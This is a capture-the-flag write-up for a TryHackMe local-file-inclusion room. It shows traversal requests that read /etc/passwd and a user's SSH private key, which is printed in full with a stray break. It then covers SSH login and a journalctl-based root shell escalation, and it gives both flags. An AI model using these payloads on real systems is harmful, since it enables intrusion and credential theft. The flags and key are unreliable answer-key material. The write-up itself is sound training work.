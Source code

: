 ```yaml
---
layout: post
title: Write-Up [THM] LFI
categories: [Write-Ups]
tags: [TryHackMe, LFI]
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI]

# [Task 2] - Getting user access via LFI

*  	Look around the website. What is the name of the parameter you found on the website? 
Navigating the page, after click the “Leave a Review” button yeilded a field in the address bar `/home?page=about`. So, the name of the parameter is `page`.

* What is the name of the user on the system?

We entered : `http://10.10.147.195/home?page=../../../../etc/passwd` and found the user **falcon**.  
`falcon:x:1000:1000:falcon,,,:/home/falcon:/bin/bash sshd:x:110:65534::/run/sshd:/usr/sbin/nologin`

* Name of the file which can give you access to falcon's account on the system? **id_rsa**.

In Burp Suite, in the repeater :  
`GET /home?page=../../../../home/falcon/.ssh/id_rsa HTTP/1.1`.   

We found the RSA private key :  

``` 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy5ab5+v0aBYFL7dN4O69CqvZdjpSk4/BFMOEndp71fy4qlBi
ewnTYIyKS1DjNhLdbLJZV/8oKOIx/BVSxrw3hnjL/b5d3jUpX1edcX8hjTt10LCT
ubgjWekIpspImHtp/vf9n0IlL1GIWLsxKZXEqyoSvvG4LU6ajrMyHM9jyZ7yMAsS
lHtfNzX22taxJliHF3SFDjf6Z0otY98T273qy6uTchBDEIZx7uJGQF4h9bvSq+22
e7QFY/h/cLrVUPGcRgv2VH4958A5n+BA48ioVyjGRcJlPsa8fNuFkgA8VlJqx/zD
Erf3G97zCY5iZSSm6g+9aUBAoqJqQqnZ1JY/jQIDAQABAoIBAQCjN3qEY7GM5OKB
j6Z7B0s9S+rKkxVywdQczmb6mpefRb3SpSFe3NC+3c1ddlrCFju4kf94wdIzfKxw
GbREKc8mGqAILN9abypdCoPp4u9GJ/5bMcUtJogI4/+QoCm1PXQL+ks1q7TeC7KQ
2HogibajNtbSiD2M7TCR6O3rFQU+NKW3P8R5rTJBFxSqXcoL0aZoOdIISuGo4e2D
w5p8eLHiYmKmQ3KYW58fau1Qnr8t0YoHDlG2wezNBQSckt5xxjY4XWlfcMPAQIP9
VWxv77zIqfLFYj6oH0opPHX7SbdpFVj00h7Ee2C0QR7CKj4lxmE2Dn97LEXksfWM
PqmJwiRBAoGBAPRGPZtAT7TfTac7lXbOYNj/5HuK1Pc7+GtsT8V3AJwbhkeZG/B+
ERee3gKlXhglEup0duxBwy5zTy6vsegMo7sk2ii/GlboR44Yy7OYbjrmIw7JRx6i
IIjN6YeKM+dwLGL7+xG2EavrRBJbuYfp1R139gK5CWd6Yu6xdwtCPS8xAoGBANVc
ZhSQOWzkN0Yq4CsAnKrrtIeynX7wTppy2F3N8/CQHQIYjFx0SZxs/

1MlTXEpFdC+
VHhQ+Cy5O+hndqXiG5sty9wC67lZNaxuBkMoxKgX42JAgxxE41lUadAdRHJ4cq7A
1DiJ1xq3XwP1ZaUEVE/Y3EusMhtr/A6z1dGJcpcdAoGAdb6d14XqZb71iVS5OOlF
2ZOPKNXEzd+EYRN2aDJygszprv1ocEX0KzSSwye+8Vh9g7Hb2Qnh8TP3yQM7eCUP
jxe2aMmlAps4UpA1MD6bc5yW7Xur4mI32HmYxZKibj6txpC7dtASOJJQ36CDD7Zw
2aGHXcyfcdeWdIPqY+zr3SECgYEAoi4SCh93ByaSPWvp6cYVUHbKSzuiLBNOLGiP
vv4GJx3kbutqBfz+10Ci8/iu3Q11365NVwd1HcnPl+DNd1pf0Z0GEL7Hn6QIAIHB
kNs0YPGHje+ruZlDl2tq4x7cIIcd5Wf96Nwd/djVCJVIJh8cV3VoPr0teVqjxik8
poHr8KECgYBGJ/FLmaloEl00YECXAy2uMlvGyaAr2tsq28JF3LvZOXNIhB71+11V
E/gv9PP0ruJJRBv5r2DjAcsWA+sIBf5O8+z5dTeuto5v+WTrpOy8i3FLEWl3hqRH
ANCTI4EhCynYtF8zi8so5zeomlncFZg7JD/dL0gHXu4FImx5sUO9gg==
-----END RSA PRIVATE KEY-----
```

We copied that in a *falcon_rsa* file and changed privileges of the file `chmod 600 falcon_rsa`.  
After that, in the terminal we used ssh to connect : `ssh -i falcon_rsa falcon@ip_machine`.

We used `ls`to see the differents files in the directory. We found `user.txt`.  
Therefore, we read this one `cat user.txt`. We found the flag **B8LEGIF049JT4RTVWUG4**.

# [Task 3] - Escalating your privileges to root

* What can falcon run as root? 

We used `sudo -l` to know how to run as root and the output was :

```
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl
```

So we used : `ls -l /bin/journaltcl`

* What is the root flag?

With gtfobins, we found that : `!/bin/sh` enabled to used shell as root.  
Therefore we searched the root directory : `find /root`. We found `root/root.txt` and used the command `cat`to see the flag : **H1EQRK5XEX140H2KMO08**. 
